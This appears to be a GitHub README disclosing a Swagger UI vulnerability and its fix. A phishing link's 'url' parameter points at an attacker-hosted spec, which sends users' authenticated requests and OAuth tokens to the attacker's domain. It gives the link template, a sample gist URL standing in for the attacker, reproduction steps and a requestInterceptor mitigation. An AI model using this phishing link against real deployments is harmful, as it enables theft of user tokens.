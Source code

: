 # PoC for a Swagger UI XSS vulnerability

**Update:** GitHub has published a security [advisory](https://github.com/swagger-api/swagger-ui/security/advisories/GHSA-qrmm-w75w-3wpx) for this, please consult it for the official resolution steps.

## Reproduction

This XSS follows the following scenario:

1. User is sent a phishing link of the following form:

   ```
   https://<legitimate-domain>/?url=https://<attacker-domain>/api-docs.yaml
   ```

   Note that `https://<attacker-domain>/api-docs.yaml` can be an _exact copy_ of `https://<legitimate-domain>/api-docs.yaml`, to spoof it for the user.
   
   As an example, you can try `https://gist.githubusercontent.com/dinvlad/04a47bd905ef41ed9a22d115e5510f9d/raw/8374876ca31f651a49662eaf51312460b1d336ca/api-docs.yaml`
   as attacker's URL.

2. User authenticates over OAuth, and gets redirected back to `https://<legitimate-domain>/?url=https://<attacker-domain>/api-docs.yaml`.
3. User submits an API request to the server using Swagger UI.
4. Observe in the browser Network tab and in the Curl command that the authenticated request is actually sent to `https://<attacker-domain>`, instead of `https://<legitimate-domain>`. As such, the attacker can capture and exploit a valid user token produced by Google for the legitimate domain.

   In the example above, the request will be sent to `https://gist.githubusercontent.com`.

## Mitigation

Until (and if) this issue is addressed upstream by the Swagger UI team, please add the following parameter to the Swagger UI config:

```js
requestInterceptor: req => {
  req.hostname = window.location.hostname;
  return req;
},
```

As an example, please see how it's implemented in [index.html](https://github.com/broadinstitute/swagger-ui-xss-poc-fix/blob/57aa9a7820e0bc736eefbdb9f8725e464dd395d7/index.html#L57-L60).
You can serve this example locally using `node index.js`.
